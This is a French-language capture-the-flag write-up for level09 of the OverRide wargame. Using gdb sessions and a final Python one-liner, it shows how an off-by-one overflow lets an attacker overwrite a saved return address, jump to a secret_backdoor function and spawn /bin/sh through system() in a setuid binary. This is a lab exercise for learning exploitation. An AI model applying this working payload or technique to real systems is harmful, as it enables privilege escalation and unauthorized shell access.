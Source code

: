 RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09
level09@OverRide:~$ file level09 
level09: setuid setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xa1a3a49786f29814c5abd4fc6d7a685800a3d454, not stripped

Dans GDB, l'adresse des fonctions n'est pas la bonne tant que le programmne n est pas demarrer.

(gdb) info function secret_backdoor 
All functions matching regular expression "secret_backdoor":
Non-debugging symbols:
0x000055555555488c  secret_backdoor

Dans la fonction set_username, nous allons ecrire 41 bytes sur str+140 qui represente la variable utiliser dans set_msg pour stocker le msg, nous allons donc depasser de 1 byte sur la variable qui represente la taille du strncpy dans set_msg qui de base est de 1 octet

Nous pouvons voir qu'avec la commande suivante nous ecrasons la valeur de $save_eip.

(gdb) r <<< $(python -c "print 40 * 'a' + '\xff' + '\n' + 'A' * 2000")
Starting program: /home/users/level09/level09 <<< $(python -c "print 40 * 'a' + '\xff' + '\n' + 'A' * 2000")
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude

Breakpoint 2, 0x00005555555549c6 in set_msg ()
(gdb) c
Continuing.
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
(gdb) x/i 0x0000555555554931
   0x555555554931 <handle_msg+113>:     ret
(gdb) i f
Stack level 0, frame at 0x7fffffffe5e8:
 rip = 0x555555554931 in handle_msg; saved rip 0x4141414141414141
 called by frame at 0x7fffffffe5f8
 Arglist at 0x4141414141414141, args: 
 Locals at 0x4141414141414141, Previous frame's sp is 0x7fffffffe5f0
 Saved registers:
  rip at 0x7fffffffe5e8

Il s'agit donc du save_eip de handle_msg() que nous ecrasons.

=> 0x00005555555549c6 <+148>:   call   0x555555554720 <strncpy@plt>
(gdb) x/wx $rdi
0x7fffffffe520: 0x0000000a
(gdb) p/d 0x7fffffffe5e8-0x7fffffffe520
$8 = 200

Nous constatons que l'adresse de save_eip de handle_msg() est a 200 bytes de l'adresse de destination ddu strncpy

Dans la fonction secret_backdoor il y a une derniere user_input ou le resultat ira en parametre de system()

(python -c "print 40 * 'a' + '\xd0' + '\n' + 'A' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00' + '\n' + '/bin/sh'";cat) | ./level09

